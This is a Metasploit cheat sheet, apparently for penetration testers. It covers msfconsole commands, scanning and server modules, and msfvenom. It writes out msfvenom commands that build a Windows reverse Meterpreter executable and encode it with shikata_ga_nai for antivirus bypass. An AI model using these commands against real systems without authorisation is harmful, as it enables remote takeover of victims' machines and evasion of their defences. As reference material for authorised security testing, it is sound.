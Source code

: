# Metasploit Cheat Sheet

***
Metasploit Project is a computer security project which provide information about vulnerabilities. Help in the development of penetration tests and IDS signatures, metasploit is very popular tool used by pentest experts.

### Metasploit :

- ###### Search for module:

```bash
msf > search [regex]
```

- ###### Specify and exploit to use:

```bash
msf > use exploit/[ExploitPath]
```

- ###### Specify a Payload to use:

```bash
msf > set PAYLOAD [PayloadPath]
```

- ###### Show options for the current modules:

```bash
msf > show options
```

- ###### Set options:

```bash
msf > set [Option] [Value]
```

- ###### Start exploit:

```bash
msf > exploit 
```
***

### Useful Auxiliary Modules


- ###### Port Scanner:

```bash
msf > use auxiliary/scanner/portscan/tcp
msf > set RHOSTS 192.168.10.0/24
msf > run
```

- ###### DNS Enumeration:

```bash
msf > use auxiliary/gather/dns_enum
msf > set DOMAIN target.tgt
msf > run
```

- ###### FTP Server:

```bash
msf > use auxiliary/server/ftp
msf > set FTPROOT /tmp/ftproot
msf > run
```

- ###### Proxy Server:

```bash
msf > use auxiliary/server/socks4
msf > run 
```
***

### msfvenom :

msfvenom this is tool can be used to generate Metasploit payloads as standalone files and optionally encode them. This tool replaces `msfpayload` and `msfencode` tools. Run with ‘'-l payloads’ to get a list of payloads.

```bash
$ msfvenom –p [PayloadPath]
–f [FormatType]
LHOST=[LocalHost (if reverse conn.)]
LPORT=[LocalPort]
```


- ##### Example: Reverse Meterpreter payload as an executable and redirected into a file:

```bash
$ msfvenom -p windows/meterpreter/
reverse_tcp -f exe LHOST=192.168.1.1
LPORT=4444 > met.exe
```

- ##### Format Options **(specified with –f)** --help-formats – List available output formats

    -  `-exe` – Executable
    -  `-pl` – Perl
    -  `-rb` – Ruby
    -  `-raw` – Raw shellcode
    -  `-c` – C code

- ##### Encoding Payloads with msfvenom

msfvenom can be used to apply a level of encoding for anti-virus bypass. For example run msfvenom with `-l encoders` to get a list of encoders.

```bash
$ msfvenom -p [Payload] -e [Encoder] -f
[FormatType] -i [EncodeInterations]
LHOST=[LocalHost (if reverse conn.)]
LPORT=[LocalPort]
```

- ##### Example: Encode a payload from msfpayload 5 times using shikata-ga-nai encoder and output as executable:

```bash
$ msfvenom -p windows/meterpreter/
reverse_tcp -i 5 -e x86/shikata_ga_nai -f
exe LHOST=192.168.1.1 LPORT=4444 > mal.exe
```
***

